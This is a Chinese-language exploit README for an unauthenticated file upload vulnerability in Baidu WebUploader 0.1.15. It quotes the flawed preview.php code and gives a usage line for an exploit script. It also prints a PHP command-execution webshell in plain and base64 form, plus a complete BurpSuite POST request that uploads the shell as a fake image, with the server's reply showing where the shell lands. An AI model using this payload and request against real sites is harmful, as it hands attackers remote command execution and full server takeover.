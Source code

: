 # webuploader-v-0.1.15 组件存在文件上传漏洞(未授权)

#### 简介：百度WebUploader组件存在文件上传漏洞。该漏洞是由于WebUploader组件上传页面对文件类型或文件扩展名过滤不严所致，攻击者可利用漏洞直接上传或简单绕过限制上传脚本文件，执行系统命令，获取网站服务器权限。

#### server/preview.php
```
if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) {

    $previewUrl = sprintf(
        "%s://%s%s",
        isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
        $_SERVER['HTTP_HOST'],
        $_SERVER['REQUEST_URI']
    );
    $previewUrl = str_replace("preview.php", "", $previewUrl);


    $base64 = $matches[2];
    $type = $matches[1];
    if ($type === 'jpeg') {
        $type = 'jpg';
    }

    $filename = md5($base64).".$type";
    $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;

    if (file_exists($filePath)) {
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    } else {
        $data = base64_decode($base64);
        file_put_contents($filePath, $data);
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    }
```
## 0x00 python usage
`python exp.py http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`

![](./webuploader.jpg)

#### php_webshell

```
<?php
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
    phpinfo();
?>
```

#### base64 encode

```
PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=
```

## 0x01 POST upload php webshell

`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview.php`
![](./burpsuite.jpg)
#### BurpSuite Requests
```
POST /webuploader-0.1.15-Demo/server/preview.php HTTP/1.1
Host: 192.168.2.18
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 298
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

data:image/php;base64,PD9waHANCiAgICBpZihpc3NldCgkX1JFUVVFU1RbJ2NtZCddKSl7DQogICAgICAgICAgICBlY2hvICI8cHJlPiI7DQogICAgICAgICAgICAkY21kID0gKCRfUkVRVUVTVFsnY21kJ10pOw0KICAgICAgICAgICAgc3lzdGVtKCRjbWQpOw0KICAgICAgICAgICAgZWNobyAiPC9wcmU+IjsNCiAgICAgICAgICAgIGRpZTsNCiAgICB9DQogICAgcGhwaW5mbygpOw0KPz4=

```
#### BurpSuite Response
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2019 05:40:48 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a
X-Powered-By: PHP/5.5.9
Connection: close
Content-Type: text/html
Content-Length: 142

{"jsonrpc" : "2.0", "result" : "http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php", "id" : "id"}
```

#### webshell
`http://192.168.2.18/webuploader-0.1.15-Demo/server/preview/fe8db86134e6505da6f3c4a112b0bad7.php`

![](./phpinfo.jpg)

![](./cmd.jpg)

### 参考链接

https://github.com/teambition/webuploader/releases

https://www.cnvd.org.cn/flaw/show/CNVD-2018-26054

payload form 圈子
